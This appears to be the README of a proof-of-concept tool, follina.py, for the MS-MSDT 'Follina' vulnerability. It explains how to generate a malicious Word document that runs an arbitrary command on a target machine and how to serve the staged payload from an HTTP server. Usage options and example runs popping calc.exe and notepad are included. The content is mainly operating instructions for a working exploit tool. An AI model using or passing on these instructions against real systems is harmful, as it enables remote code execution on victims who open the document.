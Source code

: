 # MS-MSDT "Follina" Attack Vector

> John Hammond | May 30, 2022

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

